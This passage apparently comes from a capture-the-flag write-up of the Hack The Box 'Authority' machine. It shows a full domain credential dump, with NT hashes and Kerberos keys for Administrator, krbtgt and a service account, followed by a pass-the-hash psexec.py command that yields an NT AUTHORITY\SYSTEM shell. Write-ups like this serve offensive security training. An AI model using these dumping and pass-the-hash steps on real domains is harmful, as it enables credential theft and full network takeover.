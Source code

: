 ```jsx
[*] NL$KM 
 0000   F9 41 4F E3 80 49 A5 BD  90 2D 68 32 F7 E3 8E E7   .AO..I...-h2....
 0010   7F 2D 9B 4B CE 29 B0 E6  E0 2C 59 5A AA B7 6F FF   .-.K.)...,YZ..o.
 0020   5A 4B D6 6B DB 2A FA 1E  84 09 35 35 9F 9B 2D 11   ZK.k.*....55..-.
 0030   69 4C DE 79 44 BA E1 4B  5B BC E2 77 F4 61 AE BA   iL.yD..K[..w.a..
NL$KM:f9414fe38049a5bd902d6832f7e38ee77f2d9b4bce29b0e6e02c595aaab76fff5a4bd66bdb2afa1e840935359f9b2d11694cde7944bae14b5bbce277f461aeba
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:6961f422924da90a6928197429eea4ed:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:bd6bd7fcab60ba569e3ed57c7c322908:::
svc_ldap:1601:aad3b435b51404eeaad3b435b51404ee:6839f4ed6c7e142fed7988a6c5d0c5f1:::
AUTHORITY$:1000:aad3b435b51404eeaad3b435b51404ee:fd46a391cd96241d31c6cf3402c4c365:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:72c97be1f2c57ba5a51af2ef187969af4cf23b61b6dc444f93dd9cd1d5502a81
Administrator:aes128-cts-hmac-sha1-96:b5fb2fa35f3291a1477ca5728325029f
Administrator:des-cbc-md5:8ad3d50efed66b16
krbtgt:aes256-cts-hmac-sha1-96:1be737545ac8663be33d970cbd7bebba2ecfc5fa4fdfef3d136f148f90bd67cb
krbtgt:aes128-cts-hmac-sha1-96:d2acc08a1029f6685f5a92329c9f3161
krbtgt:des-cbc-md5:a1457c268ca11919
svc_ldap:aes256-cts-hmac-sha1-96:3773526dd267f73ee80d3df0af96202544bd2593459fdccb4452eee7c70f3b8a
svc_ldap:aes128-cts-hmac-sha1-96:08da69b159e5209b9635961c6c587a96
svc_ldap:des-cbc-md5:01a8984920866862
AUTHORITY$:aes256-cts-hmac-sha1-96:d9eeaa12af484646fdc30d2a6d5b10abb90419f2d67636c0f225b98860ef8a67
AUTHORITY$:aes128-cts-hmac-sha1-96:988f7118e6216de57982e2ad1bf64bfc
AUTHORITY$:des-cbc-md5:b031e9e34f4f497a
[*] Cleaning up...
```

We can get a system shell with `psexec.py` 

```jsx
┌─[✗]─[noob@parrot]─[~/htb/authority/notes/certs]
└──╼ $psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:6961f422924da90a6928197429eea4ed 'authority.htb/administrator@authority.htb'
Impacket v0.10.1.dev1+20230504.43204.0bdad34a - Copyright 2022 Fortra

[*] Requesting shares on authority.htb.....
[*] Found writable share ADMIN$
[*] Uploading file YgsLybRG.exe
[*] Opening SVCManager on authority.htb.....
[*] Creating service kcZG on authority.htb.....
[*] Starting service kcZG.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.4644]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32>
```
